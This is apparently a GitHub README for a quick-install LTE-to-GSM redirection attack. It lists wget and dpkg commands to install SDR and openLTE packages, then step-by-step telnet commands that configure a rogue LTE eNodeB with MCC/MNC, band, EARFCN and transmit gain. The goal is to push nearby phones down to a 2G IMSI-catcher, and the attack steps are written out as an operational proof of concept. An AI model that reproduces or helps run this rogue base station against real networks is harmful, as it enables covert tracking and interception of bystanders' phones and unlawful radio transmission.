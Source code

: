 # openlte_redirection_quickinstall
* Installation
Follow this readme :  
https://github.com/bbaranoff/openLTE2GSM/
  
The bash script is :  
sudo apt update  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/uhd_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapysdr_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/bladerf_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapybladerf_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapyuhd_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/gnuradio_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/gr-osmosdr_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/polarssl_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/openlte_20211230-1_amd64.deb  
dpkg -i *.deb  
export LD_LIBRARY_PATH=/usr/local/lib/  
sudo ldconfig  
sudo apt install libboost-date-time1.67.0 libboost-filesystem1.67.0 libboost-regex1.67.0 libboost-serialization1.67.0 libboost-serialization1.67.0  
echo "Done !!!!"


* Installing 2G IMSI-Catcher
Then build 2G IMSI-Catcher  
Build IMSI-catcher  

* Testing the attack
Running  
Phone in 2G/3G/4G mode  
This article is in progress and is just a PoC  
The attack step are run the IMSI-catcher into arfcn 514 follow (see Build IMSI-catcher)  
run the 4G redirector as follow  
  
Shell #1  
LTE_fdd_enodeb

Shell #2  
telnet localhost 30000  
write rx_gain 30  
write tx_gain 80  
write mcc 215  
write mnc 15  
write band 7  
write dl_earfcn 3350  
(change with your ue values be careful that the earfcn is in the band)  
  
Then switch the phone in airplane mode and in  localhost:30000 (Shell #2) :  
start  
  
wait… and when you have “ok” answer in shell #2 remove airplane mode and … enjoy !

* Video explaining :  
**https://www.youtube.com/watch?v=CL4THUyUSDc&t=34s&pp=ygUhbHRlIHJlZGlyZWN0aW9uIGJhc3RpZW4gYmFyYW5vZmYg  
**https://www.youtube.com/shorts/j5cs28u4DAo  
**https://www.youtube.com/watch?v=GmPN6CblvaQ&pp=ygUhbHRlIHJlZGlyZWN0aW9uIGJhc3RpZW4gYmFyYW5vZmYg
